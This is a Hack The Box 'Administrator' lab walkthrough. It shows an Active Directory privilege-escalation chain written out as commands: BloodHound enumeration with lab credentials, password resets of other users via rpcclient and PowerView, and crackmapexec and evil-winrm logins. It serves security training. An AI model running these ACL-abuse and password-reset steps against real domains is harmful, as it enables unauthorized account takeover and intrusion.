<div align="left">


</div>

# Hack The Box: Administrator

<div align="left">

<br>
<br>


</div>

---

# 📌 Overview

Administrator is an Active Directory lab focused on **ACL abuse and delegated privilege escalation** in a Windows Server 2022 domain.

Attack Flow:

Valid credentials → BloodHound analysis → ACL abuse → Password reset → Lateral movement → Privilege escalation

---

# 🛠 Tools Used

```
nmap
bloodhound-python
BloodHound GUI
rpcclient
crackmapexec
evil-winrm
PowerView
```

---

# Walkthrough

---

## Step 1 – Initial Recon 

```bash
nmap -sC -sV -T5 10.129.7.247 -oN nmap_result
```

### What to Observe:

• Domain: administrator.htb
• Services: LDAP, Kerberos, SMB
• OS: Windows Server 2022 (Domain Controller)



---

## Step 2 – BloodHound Data Collection 

```bash
bloodhound-python -d administrator.htb -u olivia -p 'ichliebedich' \
-ns 10.129.7.247 -dc dc.administrator.htb \
-c ACL,Group,ObjectProps,Container --zip -op admin
```

### What to Observe:

• Successful LDAP authentication
• ACL data collected
• Domain objects enumerated



---

## Step 3 – Olivia Group Membership 

### What to Observe:

• OLIVIA group memberships
• MemberOf relationships
• Entry into privileged groups chain



---

## Step 4 – Privilege Path Mapping 


### What to Observe:

• Path to Account Operators
• Enterprise Key Admins relationships
• GenericAll / WriteOwner style rights
• Escalation toward MICHAEL



---

## Step 5 – rpcclient Abuse 

```bash
rpcclient -U "administrator.htb\\olivia%ichliebedich" 10.129.7.247
setuserinfo2 michael 23 "M!chael2026#Strong"
```

### What to Observe:

• Ability to reset another user’s password
• No exploit used
• Delegated privilege abuse confirmed



---

## Step 6 – Validate Michael Credentials 

```bash
crackmapexec smb 10.129.7.247 -u michael -p 'M!chael2026#Strong'
```

### What to Observe:

• Successful authentication
• Elevated account confirmed



---

## Step 7 – WinRM Access 

```bash
evil-winrm -i 10.129.7.247 -u michael -p 'M!chael2026#Strong'
```

### What to Observe:

• Remote PowerShell session
• Interactive domain access



---

## Step 8 – PowerView Privilege Abuse 

```powershell
$NewPass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity benjamin -AccountPassword $NewPass
```

### What to Observe:

• ACL allows password reset
• Clean escalation via delegated rights
• No noisy exploitation required



---

## Step 9 – Validate Benjamin Access 

```bash
crackmapexec smb 10.129.7.247 -u benjamin -p 'Password123!'
```

### What to Observe:

• Higher privilege account works
• Escalation chain complete



---

## Step 10 – Final Privilege Confirmation

### What to Observe:

• Successful privilege chain
• Domain-level access confirmed
• Pure ACL abuse without exploit



---

# 🧠 Key Takeaways

• BloodHound reveals hidden privilege paths quickly
• GenericAll / WriteOwner rights are extremely dangerous
• Password reset abuse is often cleaner than direct exploitation
• AD compromise is about relationships and permissions

---

# 📌 Conclusion

Administrator demonstrates how misconfigured delegated privileges can collapse domain trust boundaries without any exploit.

Enumeration → Graph Analysis → ACL Abuse → Lateral Movement → Domain Control

---

This work is part of **FuzzRaiders**’ structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor and real-world security execution

Happy hacking 🚀

---

### Author
## [LinkedIn:](https://www.linkedin.com/in/manka-sec/)
